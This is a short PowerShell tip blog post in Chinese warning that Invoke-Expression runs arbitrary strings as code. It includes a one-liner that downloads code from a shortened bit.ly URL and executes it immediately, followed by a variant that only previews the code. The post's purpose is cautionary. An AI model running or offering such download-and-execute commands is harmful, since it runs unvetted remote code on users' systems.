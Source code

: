 ```yaml
---
layout: post
date: 2015-09-17 11:00:00
title: "PowerShell 技能连载 - 为什么 Invoke-Expression 是邪恶的"
description: PowerTip of the Day - Why Invoke-Expression is Evil
categories:
- powershell
- tip
tags:
- powershell
- tip
- powertip
- series
---
```

`Invoke-Expression` 接受任何字符串输入并将它视为 PowerShell 代码。通过这种方式，您可以动态地创建代码，并执行它。

`Invoke-Expression` 是一个非常危险的命令，因为不仅您可以创建动态的代码。恶意的脚本可以隐藏它的邪恶目的，例如通过 web 站点下载代码。

以下是一个安全并有趣的例子，演示了如何从下载到执行一段代码：

    #requires -Version 3
    
    Invoke-Expression -Command (Invoke-WebRequest -Uri 'http://bit.ly/e0Mw9w' -UseBasicParsing).Content

如果您不希望发生意外，这行代码可以帮您预览将会发生什么。请在 PowerShell ISE 中运行这段代码。它将显示从 internet 下载的 PowerShell 代码，而不是立即执行它：

    #requires -Version 3
    
    $file = $psise.CurrentPowerShellTab.Files.Add()
    
    $file.Editor.text = (Invoke-WebRequest -Uri 'http://bit.ly/e0Mw9w' -UseBasicParsing).Content

<!--本文国际来源：[Why Invoke-Expression is Evil](http://community.idera.com/powershell/powertips/b/tips/posts/why-invoke-expression-is-evil)-->
